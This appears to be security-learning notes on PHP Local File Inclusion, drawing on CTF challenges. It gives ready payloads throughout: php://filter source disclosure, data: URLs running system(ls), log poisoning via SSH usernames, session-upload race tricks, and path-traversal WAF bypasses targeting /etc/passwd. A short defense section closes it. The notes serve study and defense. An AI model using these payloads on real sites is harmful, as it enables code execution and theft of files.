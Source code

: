 # File Inclusion  
PHP:  
*  [Environment](#environment)  
*  [Methods to include](#methods-to-include)  
*  [WAF bypass](#waf-bypass)  
*  [LFI with PHP7 segfault](#lfi-with-php7-segmentfault)  
*  [Inject path to session id?](#inject-path-to-session-id?)  
*  [Defense](#defense)  
*  [Reference](#reference)    

# Environment  
Here I would put some settings that you need to know before starting on Local File Inclusion. In `php.ini`:  
1. `allow_url_include` (default: off and makes it impossible to RFI)  
2. `session.auto_start` (default: off and makes it hard to create session)  
3. `session.upload_progress.cleanup` (default: On and makes it hard to include the session)  

# Methods to include  
File inclusion is always used to arbitrary code execution:  
1. pseudo protocol  
```php
php://input
// Condition：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// get base-64 encoded source code
?file=php://filter/read=convert.base64-encode/resource=file.php
// It's important that filter can be used to handle string with various ways, please take a look at the reference#1
php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php

phar://path.zip/file.php
// php5.3.0up, parse the archived file
// Sam Thomas publish a new use of phar able to unserialize without unserialize() function, please take a look at my Unserialization part

zip://path.zip%23file.php
// php5.3.0up, work as phar://, but need absolute path, and need to encode # as %23

data:URL schema
// php5.2up, two settings in php.ini set to on
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system(ls);?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b (base64 encode phpinfo)
```  
More protocol：`file://`,`ftp://`,`zlib://`,`glob://`,`ssh2://`,`rar://`,`ogg://`,`expect://`  

2. Session inclusion  
We can control the content of session, and we also know the path of session...  
Path of session can be got from `session_save_path` in phpinfo  

🍊Include Session in Hitcon CTF 2018 [ONE LINE PHP CHALLENGE](https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html):  
`session.upload_progress.name` ➡️ create session file ➡️ filename: `sess_{PHPSESSID}`  
![](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/burp_multipart.png)
As long as `PHP_SESSION_UPLOAD_PROGRESS` in POST of multipart/form-data and `session.upload_progress.enabled = On` (fortunately default is on), PHP session files would be created no matter `session.auto_start = 0`! Then to deal with the problem of `session.upload_progress.cleanup = On`, we need race condition.  
[hitcon 2018受虐笔记一:one-line-php-challenge 学习 by wonderkun](http://wonderkun.cc/index.html/?cat=1)  
[Session Upload Progress ](http://php.net/manual/en/session.upload-progress.php)  

3. Log inclusion  
**Permission** to read the log?  
Take apache for example, request would be written to `access.log`, and error would be written to `error.log`. The default stored path is `/var/log/apache2/`  
Therefore, attacker always needs to get the path with config file, and pay attention to the fact that whether the request would be encoded (use burp to modify the encoded request), then include the log in the end  

4. SSH log inclusion  
**Permission** to read?  
Default path: `/var/log/apache2/access.log`,`/var/log/apache2/error.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo in log, and include
```  
5. include temp file (lfi with phpinfo)  
Just like the picture in [LFI with PHP7 segfault](#lfi-with-php7-segmentfault), PHP handles `enctype="multipart/form-data"` with following steps. When output from PHP script is larger than output buffer setting (which is always 4096), the partial content would change to `Transfer-Encoding: chunked`. Therefore, what we need to do is to delay the execution time of PHP script. The reason for using phpinfo is getting the tmp file name from `$_FILE`.  

6. include `/proc/self/environ`: php requires to run as CGI  

7. include uploaded file: need uploading functionality on website itself   

# WAF bypass  
* Relative path bypass  
WAF usually detect **continuous** multiple `../`
```php
// according to parsing path

// not change
/./ not change
///./..//.//////./   -> use with conbination
```  
* Absolute path bypass, `/etc/passwd` would be blocked  
```php
/aaa/../etc/passwd
/etc/./passwd
```  

# LFI with PHP7 SegmentFault  
![](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/php_tmp.PNG)  
In the environment of `ubuntu16+php7.1`:  
```
php://filter/string.strip_tags/resource=xxx
```  
will cause to segmentation fault. Therefore, the tmp file cannot be removed because PHP is crashed, then we can use bruteforce to include the tmp file. With analysis, the bug of PHP is due to the inference of null pointer.  
[Script by @Wang YiHang](https://www.jianshu.com/p/dfd049924258)  

# Inject path to session id?
[CVE-2018-18925](https://github.com/vulhub/vulhub/tree/master/gogs/CVE-2018-18925)  
You can try to include the other file as fake session. This is also based on the condition that the library parse the session id in a wrong way.  

# Defense  
Make a conclusion of the requirement above, we can get the following mitigation  
* php `open_basedir`  
* read permission  
* filter of dangerous characters  

# Reference  
1. [Phith0n 谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)  
2. [LFI with phpinfo assistance](https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)  
3. [php文件包含漏洞](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/?fbclid=IwAR0537cUHx0RuYwbjdVLudlitdkofr5HHhqMcafXW3aoWqlUoJ_lMRAsnk8)
